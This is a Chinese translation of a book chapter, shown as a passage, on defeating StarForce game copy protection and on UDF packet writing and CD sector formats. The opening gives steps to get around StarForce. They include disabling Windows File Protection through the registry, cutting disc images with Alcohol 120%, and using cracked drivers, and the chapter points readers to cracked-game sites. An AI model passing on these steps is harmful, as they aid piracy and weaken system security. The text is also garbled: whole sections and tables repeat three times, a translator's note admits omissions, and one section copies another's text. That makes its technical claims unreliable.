这还没有结束！新版本的 StarForce 在检查密钥盘时会阻止文件系统操作，并确保受保护数据不从硬盘读取。在这种情况下怎么办？因为文件系统被 StarFleetCommand 或 SFC（在大多数 StarForce 版本中）锁定，如果你阻止 SFC 就可以逃脱。启动注册表编辑器，打开 `HKEY_LOCAL_MACHINE\SOFTWARE\Windows NT\CurrentVersion\Winlogon` 键，然后将 `SfcDisable` 项设置为 `dword:ffff9d` 并重启。要重新启用 SFC，只需将此值置为零即可。

# 280 第三部分：备份介数据恢复


**图 10.8.** 图像在处理后经过平滑处理，因此复制正常开始

然而，长期禁用 SFC 是非常不理想的。在此期间，计算机可能会感染蠕虫和病毒。此外，这种技巧对 StarForce 版本的软件无效。SCSI 总线上的 DVD 驱动器所有者可以从那里运行镜像。保护机制无法察觉替换，模拟器将运行得非常好。无法将完整镜像刻录 CD-R 或 CD-RW，因为 MDS 文件中包含的螺旋槽结构信息需要大约 27 MB 的空闲空间。因此，它只有在超载的情况下才能放入普通的 CD-R 或 CD-RW 中，而且并非所有情况下都如此。

黑客用“切割”方法回应了这一挑战。一切都非常简单。当检查螺旋槽结构时，保护机制并不检查其内容。你可以启动 `Alcohol 120%`，等待“DPM 检查”完成，保存转储，并让它运行几秒（以确保 Windows 识别光盘至少需要的根目录和其他关键结构已被读取）。然后你按下取消。`Alcohol 120%` 会提示你确认是否要删除文件。你会给出否定，启动 `Nero Burning ROM`，并像写入任何普通文件一样将 `Alcohol 120%` 生成的 `MDF` 和 `MDS` 文件写入光盘。然后你将刚刚刻录好的光盘插入 SCSI 或 USB CD-ROM，连接模拟器，并享受游戏（从硬盘运行）。

遗憾的是，这种技巧在较新版本中不起作用。现在保护机制除了检查螺旋槽结构外，还会检查其内容。因此，是时候等待新的模拟器版本了。例如，`Daemon Tools` 的开发者承诺在不久后发布新版本（v 4.0）。该版本的主要优势将能够无需对镜像和驱动器进行巫术尝试即可绕过 StarForce。目前，必须使用破解过的驱动程序，这些程序删除了文件系统阻塞。由于缺少文件系统阻塞，完整镜像（而不只是切割片段）可以从硬盘启动。在何处可以找到此类镜像？拥有镜像集的网站不断更改地址；因此，提供链接是有问题的。搜索引擎也无能为力，因为黑客页面在被它们索引时可能已经准备好了。论坛最适合此目的。如果没有破解过的驱动程序，可以通过网络运行生成的镜像。模拟器会看到它，而保护机制则不会。遗憾的是，并不是每个人都有局域网，也不是每个人都买得起第二台电脑。

尽管如此，情况并非无望。许多旧版本的保护仍在使用，因为 `Alcohol 120%` 是不可缺的。顺便说一下，当游戏安装更新时，保护机制通常也会更新。因此，建议仅需要时安装。此外，只有最贵的高级版本 `StarForce Professional` 有针对模拟器的措施。大多数公司喜欢 `StarForce Basic Edition`，因为它更便宜且更可靠。开发者官方网站提供了一个对比表（`http://www.star-force.com/protection/protection.php?id=304`），在宣布你破解了 StarForce 之前，你应该仔细研究它。基础版很容易破解；`StarForce Professional` 需要更多的时间精力才能绕过。

在对 StarForce 进行实验后，大多数人想从系统中完全删除它，以消除冲突和潜在问题。理论上，这应该由游戏卸载工具的开发者提供。在实践中，用户必须自行清理系统。预见到法律用户的正义之怒，StarForce 开发者发布了一个专门工具来自动执行此任务，并提供免费下载：`http://www.star-force.ru/support/sfdrvrem.zip`。

理论上，存在一种基于密钥生成的优雅破解技术。StarForce 将螺旋槽结构的特定特征转换为专用的数字格式，生成一系列字符和数字，并将结果与提供的密钥进行比较。这是对其行为的简要描述；StarForce 使用了加密和其他功能。然而，总的思路是一致的。如果你能重构密钥生成算法，你就能计算出被解释为正确的密钥。使用 `KeyLess` 技术保护的程序从不请求密钥，密钥存储在光盘主卷描述符中的数据制备者标识符中，那里可以被轻易地更改。通过对 StarForce 的简要研究，我发现理解并重构密钥生成算法是一项现实的任务。它很可能在新版本中发生变化；因此，所有在算法重构上的投入都将付诸东。顺便说一下，最近互联网上出现了许多提供此类商业服务的广告，这看起来立刻非常可疑。不要被这种欺诈误骗。目前还没有可用的密钥生成器。

# StarForce 如何作为木马工作？

最出色的病毒定义之一是，病毒和木马是秘密执行用户不需要、不知情且希望禁用的不良操作的程序。（注：原文此处存在大量重复句子，译文已按要求保留逻辑但未重复翻译完全相同的内容）。


大家都知道 StarForce 在利用用户。因此，保护机制的开发需要非常小心。在实施任何反破解措施之前，自尊的开发者必须考虑用户的便利性并考虑系统安全。为了改进反破解，StarForce 开发者将部分保护代码运行在 `ring 0`。这是通过打开实现的。这意味着什么？这意味着任何第三方代码都可以无需许可渗透 `ring 0`。一段时间后，这个安全漏洞被修复了（尽管我不确定这个补丁是否可靠）。事实说明一切——`HASP`、`Extreme Protector` 以及其他对手也使用到 `ring 0`；但它们没有安全漏洞和蓝屏（`BSOD`）。因此，保护机制的开发需要非常小心。在实施任何反破解措施之前，自尊的开发者必须考虑用户的便利性并考虑系统安全。

# StarForce 是否已被破解？

创建一个受 StarForce 保护的光盘副本是一个现实的任务。然而，为了实现这一目标，必须折腾模拟器、调整硬件、迁移到 `SCSI` 驱动器并进行其他对游戏来说是不自然的活动。

大多数人早已从 StarForce 中解放出来，因此任何宣布迁移到授权版本没有替代方案的说法都是过早的。只需等待黑客程序出现在互联网上。StarForce 传奇的“不可破解性”主要涉及到使用特殊刻录机自动拷贝光盘。预计此类刻录机近期发布。`Daemon Tools` 和 `Alcohol 120%` 的开发者并没有睡觉。StarForce 的开发者也没有。总之，战斗中最精彩的部分尚未到来。每个人都有权选择为哪一方战斗。我只想指出，如果需要，每个人都可以加入黑客社区。然而，参与保护机制的开发并不适合所有人。这是一个有自己规则的封闭社区。

# 有趣的参考

+ `http://www.star-force.com` — StarForce 保护开发者的官方网站
- `http://www.gamecopyworld.com` — 海量的破解游戏集，并附有详细的刻录说明
- `http://www.alcoholsoft.com` — `Alcohol 120%`，史上最出色的 CD 刻录机之一，能够部分克服 StarForce
- `http://cdru.nightmail.ru/cdru/silki/progs/mdseit/AdvancedMDSEdit055.rar` — 用于 `Alcohol 120%` 镜像的高级 MDS 编辑器，提供了平滑不均匀镜像的可能性
- `http://www.daemon-tools.cc` — 用于处理 `Alcohol 120%` 生成镜像的 `Daemon Tools` 模拟器；相比 `Alcohol 120%`，它更轻量且免费

## 通用磁盘格式 (UDF)：粗心大意

很久以前，当 CD 刻录机刚开始进入市场时，一位愤怒的买家给某电脑公司的客户服务打电话，抱怨他们卖给他无法使用的 CD 刻录机。当技术支持专家询问该客户使用哪个程序进行刻录时，他毫不犹豫地回答他使用的是 `Norton Commander`。

这个轶事并不会让任何人会心。现代光介质已经变得如此智能化，实际上任何程序都可以将信息拷贝到 CD 中，无论是 Windows 管理器、`FAR Manager` 甚至是 `Norton Commander`。这种便利性是以可靠性降低、容量减少、操作系统运行变慢以及其他不愉副作用为代价的，但这实际上并不重要。

学者很难掌握所有这些细节。从表单获得的信息是不一致的，而值得信任的技术规范又太难以理解。能做些什么来改善这种情况？

CD 或 DVD 的透明写入机制（大多数用户将其与 `DirectCD` 关联）基于两种互补的技术——包写入和动态文件系统，其角色通常被委托给通用磁盘格式（`UDF`）。这两个概念经常被混淆，尽管它们处于层级结构的不同位置。

包写入是驱动器硬件层面支持的刻录模式。还有其他刻录模式：一次会话（`SAO`）、一次光盘（`DAO`）和一次性轨道（`TAO`）。在不涉及技术细节的情况下，必须提到刻录模式定义了驱动器一次写入的数据部分的大小（换句话说，是在不停止激光的情况下）。

`DAO` 是所有可用模式中最浪费的，它一次性刻录整个磁盘镜像，从第一个扇区到最后一个，并且不允许你添加更多信息。`SAO` 是一种更经济的模式，因为它允许你每次一个会话多次添加更多信息。然而，每个会话至少占用 15 MB 的磁盘空间，这太多了。`TAO` 每个轨道仅需 300 KB，遗憾的是，它只适用于 `CD-R`（在我看来，实现这种支持对于发烧友来说是一项很有价值的任务）。此外，这所有三种模式都不允许删除之前写入的数据，因为它们是专为 `CD-R` 设计的。在最好的情况下，只实现了模拟删除，

## 第 10 章：恢复 CD

这删除了目录中的引用。然而，数据并没有从物理上被移除。此外，这种删除不会增加可用磁盘空间。

包写入模式避免了所有这些缺点。它将空间开销减少到每个包 14 KB。刻录过程是以固定或可变大小的块进行的（块大小可以从 2 KB 到 2 MB 不等）。允许的最大包大小受限于单个驱动器的特定设计特性。它随型号而异。然而，它必须不少于 64 KB；否则，这就不是一个符合标准的驱动器。数据包顺序填充磁盘，从外边缘向中心进行。光盘不允许随机写入。螺旋轨道必须是连续的，不能跳过整个介质表面。CD 的性质要求信息必须散布在螺旋轨道上，跳过不同扇区的位。这使得具有更好的可靠性，并且在出现径向划痕和局部缺陷时具有数据恢复的可能性。因此，原则上无法一次只写入一个扇区。同样，在磁盘中间写入一个数据包也是不可能的，因为必须在后面留下至少一个未刻录的扇区（图 10.9），先写入的数据包可以多次重写；因此确保了删除文件的可能性。

仅包写入机制不足以实现所需目标。还需要选择合适的的文件系统来支持它。标准文件系统（如 `ISO 9660` 和 `Joliet`）是为 CD-ROM 开发的且无法感知碎片，它们期望在磁盘上看到连续的空闲块，而这并不总是可用的。

图 10.9. 增量写入示例

`UDF` 文件系统是由光存储技术协会 (`OTA`) 开发的，初衷是 DVD，远不是为了主导介质的想法。然而，该项目是如此有利，以考虑到其结构的所有细节，将其应用于 `CD-RW` 并不需要费多少精力。`UDF` 并不通过物理磁盘格式化运行。相反，它需要一种逻辑格式，因此它在何种介质上使用并不重要。

使用 `UDF` 写入的磁盘不需要以包模式写入，反之亦然——并不是每个包模式都使用 `UDF` 服务。在硬件层面，包写入模式确保了在单个文件进行选择性写入和删除，在软件层面，它通过专门的驱动程序插件（snap-in）来确保。`UDF` 只将开销减少到合理的最小。

存在多个 `UDF` 规范，其中最可靠的是以下发布版本：

- `1.02` — 描述了各种介质（包括 `UDF-ROM`）上的数据布局（包括视频）；支持碎片化和其他实用功能
- `1.50` — 包含介质缺陷管理器，防止数据被写入介质的缺陷位置，并增加了与 `CD-RW` 工作的可能性
- `2.00` — 支持流媒体文件、访问列表、激光校准和其他辅助功能
- `2.01` — 支持实时文件，确保磁盘的完整性

`Windows 98` 支持 `UDF 1.02`，`Windows 2000` 与版本 `1.50` 工作，`Windows XP` 确保了对 `2.01` 的支持。要与其他版本配合，需要安装额外的驱动程序，因为后续版本并不包含所有之前的版本，并且更新了内核。

## 使用 UDF 所需的组件

为了充分享受使用 `UDF` 的所有功能，你需要以下设备：

- 支持包写入模式的 CD/DVD 刻录机。注意，这必须是功能支持，而不仅仅是未经证实的制造商声明（通常，此类声明是营销手段）。刻录机必须设计并实现满足包模式的所有严苛要求。各种杂志的实验室提供了关于最流行驱动器的相当完整的信息，因此选择合适的型号通常不是问题。
- `UDF` 驱动程序将 `UDF` 服务 结构的内部语言转换为操作系统的语言。该驱动程序通常被称为 `UDF reader`。
- `UDF` 监控器拦截所有对 CD 的请求，并确保“透明”磁盘格式化和写入。监控器通常是整个驱动程序层级，可以分为两层——抽象特定硬件特性的驱动程序和针对操作系统的驱动程序。此外，还需要在系统托中显示驱动器状态的软件。如果你不计划从 `FAR Manager` 刻录 CD，但想使用包写入模式来减少驱动器开销，可以不需要 `UDF` 监控器。在这种情况下，可以使用刻录软件（如 `Nero`）代替监控器。

为了开始积累这种格式的首次经验，我建议你购买某些零售驱动器，它们附带安装程序自动安装所有所需的软件；否则，你可能会遇到困难。有必要确保包写入程序（准确地说是其系统驱动程序）支持最新的 `UDF` 版本。我提到这一点是因为大多数现代且先进的刻录机配备了仅支持 `UDF 1.5` 的过时软件，并且感知后续版本。

总是更新旧版本（例如通过互联网）；然而，情况并非如此简单。首先，此类更新并不总是免费的。

# 包刻写软件 (Packet Writing Software)

其次，你极可能会遇到 Bug。为什么呢，如果更新程序如此简单，硬件制造商为什么没有实现它？答案显而易见：他们不愿对已经调试和测试过的软件进行任何鬼知道是些修改的修改。


没有必要获取所有驱动程序的最新版本，因为使用 `UDF 2.x` 格式化的光盘通常可以使用 `UDF 1.5` 读取，尽管带有某些局限性。例如，你无法获得 `ACL`（访问控制列表）。但请注意，在多用户系统中归档“我的文档”和“设置”目录时，没有此功能是不可能实现的。

哪些程序可以用于包刻写？这并不是一个简单的问题，而且可以有不同的解释。包含驱动程序插件（一个 `UDF` 读取器和一个 `UDF` 监控器）的包刻写程序并不多，因为开发此类软件需要高水平的工程和编程技能，而这些技能是稀缺的。大多数 `CD` 刻录软件的开发者倾向于不纠结驱动程序。他们会创建一个精美的 `GUI`，并从高科技公司获取刻录引擎授权。

`DirectCD` 软件包是该领域无可争议的领导。该产品由 `Adaptec` 开发，其主要授权持有者是 `Roxio` 及其它的 `Easy CD Creator`（该产品通常被称为 `Roxio DirectCD`，这是错误的）。简而言之，我将该程序刻画为：它是一个充满 `Bug` 的、变幻莫测且不兼容的程序，倾向于与硬件及软件发生冲突。它背信地违反了标准的 `UDF` 规范，并引入了自己的扩展，这增加了在 `Windows` 以外操作系统中读取光盘的复杂性（对于 `Linux` 尤为如此）。该程序使用了硬件实现中的非标准特性，因此对刻录机固件及其版本极其挑剔。它经常拒绝与许多驱动程序配合，并抱怨不兼容。总的来说，它的流行是营销人员的一个阴险花招。如果你仍然想用这个垃圾，可以从 `http://www.adaptec.com/` 获取。`UDF` 读取器是免费分发的，而你被要求为其他垃圾内容付费。它的竞争对手列表如下：

- 来自 `CeQuadrat` 的 `PacketCD`（现归 `Roxio` 拥有）野心没那么大，也没有那么傲慢。它支持透明数据压缩，这略微增加了光盘的有效容量。遗憾的是，这一功能导致了兼容性问题；因此，实际上没有人使用它。最近的趋势是硬件制造商从该产品迁移到 `DirectCD`。大多数现代刻录机都配有 `DirectCD`。这很令人哀。遗憾的是，`PacketCD` 产品很难找到。
- 来自 `Ahead` 的 `INCD` 功能很差。然而，该产品与 `Nero Burning ROM` 运行正常。不支持 `CD-Rs`；考虑到这一缺点的个人会权衡，但另一些人并不那么挑剔。从我来看，无法在包模式下写入 `CD-Rs` 是一个严重的缺陷，使产品质量跌到了所有底线之下。
- 来自 `Gutenberg Systems` 的 `FloppyCD` 是唯一支持以 `ISO 9660` 和 `Joliet` 格式进行包刻写的程序。这一功能的实现是以牺牲碎片支持为代价的。因此，在随机复制和删除许多不同大小的文件时，光盘空间的使用效率低下。
- `Windows XP` 提供了内置的 `UDF` 支持。包刻写不需要额外的软件和额外的配置设置。

# 雷尼尔山 (Mount Rainier)

被广为讨论的 `Mount Rainier` 技术不过是营销人员的骗局，它并没有推动任何新事物。然而，一切都会按顺序讨论。什么是 `Mount Rainier`？它是一个以一个风景如画的国家公园命名的组织（`http://www.nps.gov/mora`）。该组织控制并协调与操作系统与光介质及刻录机交互相关的各种问题。计算机社会的几乎所有精英参与了其活动：`飞利浦`、`微软`、`康`、`索尼` 等。

`Mount Rainier Writer`（或简称 `MRW`）被大多数记者赞誉为包刻写的事实标准，其实只不过是……标准包刻写加上 `UDF 2.0.1`。该软件要求在后台格式化光盘，并正确处理来自后者的中断。该程序使用了硬件实现中的非标准特性，因此对刻录机固件及其版本极其挑剔。它经常拒绝与许多驱动程序配合，抱怨不兼容。背信地违反了标准的 `UDF` 规范，并引入了自己的扩展，这增加了在 `Windows` 以外操作系统中读取光盘的复杂性（对于 `Linux` 尤为如此）。该程序使用了硬件实现中的非标准特性，因此对刻录机固件及其版本极其挑剔。它经常拒绝与许多驱动程序配合，抱怨不兼容。总的来说，它的流行是营销人员的一个阴险花招。如果你仍然想用这个垃圾，可以从 `http://www.adaptec.com/` 获取。`UDF` 读取器是免费分发的，而你被要求为其他垃圾内容付费。

# 292 第三部分：备份介质数据恢复

## 卷空间


图 10.11。虚拟分配表，是 `UDF` 的关键元素，它在整个光盘上自由迁移，防止了对同一扇区的多次覆盖。

此外，存储文件系统的扇区以一种极高强度的数据写入模式运行。在每次复制或删除操作期间，它们都会被重写。为了避免对同一扇区的多次覆盖，采取了特殊的措施。例如，虚拟分配表（`VAT`）作为 `UDF` 的关键元素之一，它 允许你进行增量写入，它在整个光盘上自由迁移，防止了对同一扇区的多次覆盖（图 10.11）。然而，无论采取什么努力来克服这一缺点，辅助结构都是最先损坏的，有时在经过 100 次覆盖循环后，光盘就会变得无法使用，不熟练的用户永远无法恢复它。

有必要提醒你注意机械损坏。`UDF` 光盘对这一点非常谨慎。这种备受推崇和推广的缺陷控制机制在这种情况下不起作用，因为它并不消除错误，只是防止损坏的扇区被使用。

因此，你绝不要在数据包模式下复制你会后悔的珍贵文件。如果这样做，强烈建议创建多个副本。将文件从一台电脑移动到另一台是另一回事。对于这一点，`UDF` 是不可或缺的。

是时候考虑可靠性问题了。光介质制造商往往会高估其寿命并经常提供终身质修。不要被

# 第 10 章：恢复光盘 293

这些承诺所欺骗，因为极不可能有人还能使用它。如果你尝试将缺陷光盘退给制造商，每家公司都会以不可更改的拒绝作为回答，并指责你存储产品的条件不当。你的存储环境有气候控制吗？温度和空气湿度的控制精度是多少？根据我的经验，以及我朋友和同事的经验，即使是 `Verbatim` 光盘在 18 到 24 个月后也会因为活性层的衰减而出现显著的可读性下降。因此，只有自杀的傻子才会把档案存储在 `CD-R` 和 `CD-RW` 上。为了可靠的存储，请使用刻录机、磁光介质，甚至是老的 `Iomega Zip 100 MB`。

## 如何选择驱动器

为了在数据包模式下可靠运行，`CD-R` 和 `CD-RW` 驱动器必须至少支持 `MultiRead` 模式（推荐的驱动器在其前面板应有相应的标志）。并不是每个标志都值得信任。`OSTA` 进行的细致调查显示，市场上很少有高质量的驱动器（图 10.12）。

| 制造商 | CD-R | CD-RW | DVD-ROM |
|---|---|---|---|
| Acorn | ● | | |
| Aspen inc. | ● | | |
| Behavior Technology | ● | | |
| Computer | ● | | |
| DVS | ● | | |
| Hewlett-Packard | ● | | |
| Hitachi | ● | | |
| KME | ● | | |
| LG Electronics | ● | | |
| Lexar | ● | | |
| MKE | ● | | |
| Mitsumi | ● | | |
| NEC | ● | | |
| Pan-International | ● | | |
| Philips | ● | | |
| Pioneer | ● | | |
| Ricoh | ● | | |
| Samsung | ● | ● | ● |
| Sony | ● | | |
| TEAC | ● | | |
| Toshiba | ● | | |
| 已证明合规性 | | | |
| 已授予 MultiRead 标志许可 | | | |

图 10.12。不同制造商对 `MultiRead` 模式的支持，“已证明合规性”意味着驱动器符合标准，“授予 `MultiRead` 标志许可”意味着驱动器符合（规范）。

无论采取什么努力来克服这一缺点，辅助结构都是最先损坏的... （此处省略重复内容，保持连贯）

因此，你绝不要在数据包模式下复制你会后悔的珍贵文件。如果这样做，强烈建议创建多个副本。将文件从一台电脑移动到另一台电脑是另一回事。对于这一点，`UDF` 是不可或缺的。

是时候考虑可靠性问题了。光介质制造商往往会高估其寿命并经常提供终身质修。不要被这些承诺所欺骗，因为极不可能有人还能使用它。如果你尝试将缺陷光盘退给制造商，每家公司都会以不可更改的拒绝作为回答，并指责你存储产品的条件不当。你的存储环境有气候控制吗？温度和空气湿度的控制精度是多少？根据我的经验，以及我朋友和同事的经验，即使是 `Verbatim` 光盘在 18 到 24 个月后也会因为活性层的衰减而出现显著的可读性下降。因此，只有自杀的傻子才会把档案存储在 `CD-R` 和 `CD-RW` 上。为了可靠的存储，请使用刻录机、磁光介质，甚至是老的 `Iomega Zip 100 MB`。

## 如何选择驱动器


# 292 第三部分：备份介质数据恢复

## 卷空间


图 10.11。虚拟分配表，是 UDF 的关键元素，它在整个光盘上自由迁移，防止了对同一扇区的多次覆盖。

此外，存储文件系统的扇区以一种极高强度的数据包写入模式运行。在每次复制或删除操作期间，它们都会被重写。为了避免对同一扇区的多次覆盖，采取了特殊的措施。例如，虚拟分配表（VAT）作为 UDF 的关键元素之一，它允许你进行增量写入，它在整个光盘上自由迁移，防止了对同一扇区的多次覆盖（图 10.11）。然而，无论采取什么努力来克服这一缺点，辅助结构都是最先损坏的，有时在经过 100 次覆盖循环后，光盘就会变得无法使用，不熟练的用户永远无法恢复它。

有必要提醒你注意机械损坏。UDF 光盘对这一点非常谨慎。这种备受推崇和推广的缺陷控制机制在这种情况下不起作用，因为它并不消除错误，只是防止损坏的扇区被使用。

因此，你绝不要在数据包模式下复制你会后悔的珍贵文件。如果这样做，强烈建议创建多个副本。将文件从一台电脑移动到另一台电脑是另一回事。对于这一点，UDF 是不可或缺的。

是时候考虑可靠性问题了。光介质制造商往往会高估其寿命并经常提供终身质修。不要被这些承诺所欺骗，因为极不可能有人还能使用它。如果你尝试将缺陷光盘退给制造商，每家公司都会以不可更改的拒绝作为回答，并指责你存储产品的条件不当。你的存储环境有气候控制吗？温度和空气湿度的控制精度是多少？根据我的经验，以及我朋友和同事的经验，即使是 Verbatim 光盘在 18 到 24 个月后也会因为活性层的衰减而出现显著的可读性下降。因此，只有自杀的傻子才会把档案存储在 CD-R 和 CD-RW 上。为了可靠的存储，请使用刻录机、磁光介质，甚至是老的 Iomega Zip 100 MB。

# 第 10 章：恢复光盘 293

## 如何选择驱动器

为了在数据包模式下可靠运行，CD-R 和 CD-RW 驱动器必须至少支持 MultiRead 模式（推荐的驱动器在其前面板应有相应的标志）。并不是每个标志都值得信任。OSTA 进行的细致调查显示，市场上很少有高质量的驱动器（图 10.12）。

| 制造商 | CD-R | CD-RW | DVD-ROM |
|---|---|---|---|---|
| Acorn | ● | | | |
| Aspen inc. | ● | | | |
| Behavior Technology | ● | | | |
| Computer | ● | | | |
| DVS | ● | | | |
| Hewlett-Packard | ● | | | |
| Hitachi | ● | | | |
| KME | ● | | | |
| LG Electronics | ● | | | |
| Lexar | ● | | | |
| MKE | ● | | | |
| Mitsumi | ● | | | |
| NEC | ● | | | |
| Pan-International | ● | | | |
| Philips | ● | | | |
| Pioneer | ● | | | |
| Ricoh | ● | | | |
| Samsung | ● | ● | ● |
| Sony | ● | | | |
| TEAC | ● | | | |
| Toshiba | ● | | | |
| 已证明合规性 | | | | |
| 已授予 MultiRead 标志许可 | | | | |

图 10.12。不同制造商对 MultiRead 模式的支持，“已证明合规性”意味着驱动器符合标准，“授予 MultiRead 标志许可”意味着驱动器符合（规范）。

## 刻录的秘密

无论采取什么努力来克服这一缺点，辅助结构都是最先损坏的。


# 292 第三部分：备份介质数据恢复

## 卷空间


图 10.11。虚拟分配表，是 UDF 的关键元素，它在整个光盘上自由迁移，防止了对同一扇区的多次覆盖。

此外，存储文件系统的扇区以一种极高强度的数据包写入模式运行。在每次复制或删除操作期间，它们都会被重写。为了避免对同一扇区的多次覆盖，采取了特殊的措施。例如，虚拟分配表 `VAT` 作为 `UDF` 的关键元素之一，它允许你进行增量写入，它在整个光盘上自由迁移，防止了对同一扇区的多次覆盖（图 10.11）。然而，无论采取什么努力来克服这一缺点，辅助结构都是最先损坏的，有时在经过 100 次覆盖循环后，光盘就会变得无法使用，不熟练的用户永远无法恢复它。

有必要提醒你注意机械损坏。`UDF` 光盘对这一点非常谨慎。这种备受推崇和推广的缺陷控制机制在这种情况下不起作用，因为它并不消除错误，只是防止损坏的扇区被使用。

因此，你绝不要在数据包模式下复制你会后悔的珍贵文件。如果这样做，强烈建议创建多个副本。将文件从一台电脑移动到另一台电脑是另一回事。对于这一点，`UDF` 是不可或缺的。

是时候考虑可靠性问题了。光介质制造商往往会高估其寿命并经常提供终身质修。不要被这些承诺所欺骗，因为极不可能有人还能使用它。如果你尝试将缺陷光盘退给制造商，每家公司都会以不可更改的拒绝作为回答，并指责你存储产品的条件不当。你的存储环境有气候控制吗？温度和空气湿度的控制精度是多少？根据我的经验，以及我朋友和同事的经验，即使是 `Verbatim` 光盘在 18 到 24 个月后也会因为活性层的衰减而出现显著的可读性下降。因此，只有自杀的傻子才会把档案存储在 `CD-R` 和 `CD-RW` 上。为了可靠的存储，请使用刻录机、磁光介质，甚至是老的 `Iomega Zip 100 MB`。

# 第 10 章：恢复光盘 293

## 如何选择驱动器

为了在数据包模式下可靠运行，`CD-R` 和 `CD-RW` 驱动器必须至少支持 `MultiRead` 模式（推荐的驱动器在其前面板应有相应的标志）。并不是每个标志都值得信任。`OSTA` 进行的细致调查显示，市场上很少有高质量的驱动器（图 10.12）。

| 制造商 | CD-R | CD-RW | DVD-ROM |
|---|---|---|---|
| Acorn | ● | | | |
| Aspen inc. | ● | | | |
| Behavior Technology | ● | | | |
| Computer | ● | | | |
| DVS | ● | | | |
| Hewlett-Packard | ● | | | |
| Hitachi | ● | | | |
| KME | ● | | | |
| LG Electronics | ● | | | |
| Lexar | ● | | | |
| MKE | ● | | | |
| Mitsumi | ● | | | |
| NEC | ● | | | |
| Pan-International | ● | | | |
| Philips | ● | | | |
| Pioneer | ● | | | |
| Ricoh | ● | | | |
| Samsung | ● | ● | ● |
| Sony | ● | | | |
| TEAC | ● | | | |
| Toshiba | ● | | | |
| 已证明合规性 | | | | |
| 已授予 MultiRead 标志许可 | | | | | |

图 10.12。不同制造商对 `MultiRead` 模式的支持，“已证明合规性”意味着驱动器符合标准，“授予 `MultiRead` 标志许可”意味着驱动器符合（规范）。

## 刻录的秘密


图 10.16. 读取和解读一系列凹（pits）和凸（lands）的结果

时钟发生器的精度和光片旋转的均匀性。例如，如果时钟发生器的精度约为 10%，那么一个包含 10 个槽的链测量误差约为 ±1 个槽。某些制造商将单个槽的长度缩短了 30%，这使得有效光片容量相应增加。驱动器是如何确定单个链的长度的？毕竟，并没有参考值可用，驱动器必须将槽长度与标准值进行比较，这意味着包含 `N` 个“缩短”槽的链将被解释为 `N/2`。通过拆解我的飞利浦驱动器固件，我发现驱动器有一个自动速度调节器，它可以选择一个时间间隔 `$T$` 的值（见图 10.16），使得读取错误最少。由于两个相邻的二进制 1 之间必须至少隔三个 0，因此需要使用一种复杂的重编码系统，将源数据的 8 位字符转换为 15 位的 `EFM` 字。同时，`EFM` 字不能紧密挨接——想想如果一个以逻辑 1 结尾的 `EFM` 字后面紧跟着另一个以 1 开头的 `EFM` 字，会发生什么。因此，`EFM` 字之间必须用三个合并位隔开。因此，为了存储源数据的每 4 位，需要 9 个物理位。标准的调制方法并不是理想的，它为进一步改进留下了相当的保留空间（参见本章稍后的“`RESERVE-6` 或额外容量保留”）。

在软件层面直接处理的最少数据是扇区（在音频 CD 术语中称为数据块）。一个数据块由 98 帧组成，每帧又包含 24 字节用户数据、8 字节里德-所门码（`Reed-Solomon codes`，通常称为交叉交织里德-所门码，`CIRC`）、3 个同步字节和 8 位子通道——每个子码 1 位，惯常标记为 `P`、`Q`、`R`、`S`、`T`、`U`、`V` 和 `W` 字符。`Q` 通道存储光片布局信息，`P` 通道用于快速查找停顿，其他通道都是空闲的。

因此，单个数据块的有效容量为 2352 字节，在考虑到子通道的情况下甚至达到 2400 字节（每 98 字节子通道中有 34 字节分配给内部需求）。里德-所门纠错码每帧可纠正最多 4 个损坏字节，这使得每个数据块有 392 字节。

源自音频片的数据盘（`CD-Data`）支持两种主要的数据处理模式：模式 1 和模式 2。

在模式 1 中，2352 字节原始扇区容量中的 2048 字节直接分配用于存储用户数据。其他字节分布在扇头（16 字节）、扇区校验和（4 字节）以及增加光片抗缺陷能力的额外纠错码中（276 字节）。剩余的 8 字节未使用，通常初始化为零。

在模式 2 中，2352 字节原始扇区容量中只有 16 字节用于服务结构（扇头）；剩余 2336 字节存储用户数据。如所示，当以模式 2 写入光片时，其有效容量增加了约 15%；但数据可靠性也降低了约 33%。尽管如此，如果你使用高质量介质（如 `LG`、`TDK` 或 `Verbatim`）并小心存储，数据永久损坏的风险相对较低（参见本章稍后的“光片可靠性”部分）。此外，许多数据格式可以承受介质的高程度损坏，这些是 `DivX`、`MP3`、`JPEG` 等许多类型的文件。在一定风险范围内，也可以写入压缩包和执行文件，它们的丢失不会太大困扰你，或者可以很容易地恢复（例如，在电脑之间传输文件或复制光盘）。

## 问题

模式 2 本身不会引起任何问题。这是所有驱动器、介质和驱动程序支持的标准。问题在于 `ISO 9660` 及其后续标准对扇区大小有严格限制，要求其是 2 的幂（也就是说，扇区大小必须是 512、1024、2048、4096 等字节）。模式 1 扇区内用户数据区域的大小必须满足这一要求（`$2^{11} = 2048$`）。模式 2 则不是，因此留下了 288 字节的未使用（`$2^{11} + 288 = 2336$`）。

# 第 10 章：恢复数据

## 302 第三部分：备份媒体数据恢复

在文件播放之前，无需等待整个轨道被抓取。因为 `Windows` 和 `UNIX` 都是多任务操作系统，轨道抓取和文件播放可以并行执行。

作为一种变体，可以以 `Video CD` 格式录制光。为了实现这一目标，你需要一个对标准要求不是那么苛刻的 `CD` 刻录程序。该程序必须顺从记录各种类型的数据。如果你使用的文件格式与 `MPEG-1` 或 `MPEG-2` 不同，在尝试将它们刻录到 `CD` 时会出现严重问题，因为 `Windows` 会强制为它们提供 `MPEG-1` 头文件。强制的头文件会令标准播放器产生困惑，甚至可能导致系统冻结。

这种情况至少有两种解决方法。最简单的方法是在系统中安装一个支持 `RIFF/CDXA` 解析的特殊 `DirectShow` 过滤器。此类过滤器的一个示例是 `Alex No` 和 `DeXT` 开发的 `XCD DirectShow filter`（`NSIS` 安装程序）。该过滤器可以从 `http://es.geocities.com/deststuff/mode2cdmaker` 下载。另一种方法是使用能够容忍“额外”头文件并简单忽略它的软件。此类软件的一个示例是 `Freebeam CD/MP3 Player`，位于 `http://www.vnunet.com/Print/1129594`。

## 模式 2 中的实用魔法演示

在支持模式 2 刻录的程序中，有一个无可争议的领导者——在专业人士中非常流行的 `CDRW` 实用程序。这个强大工具的能力主要限于你的想象力。该程序的最新版本可以在 `http://www.goldenhawk.com/download_body.htm` 等网站下载。此外，你还需要该程序的控制版本，可以在 `http://www.goldenhawk.com` 网站下载。

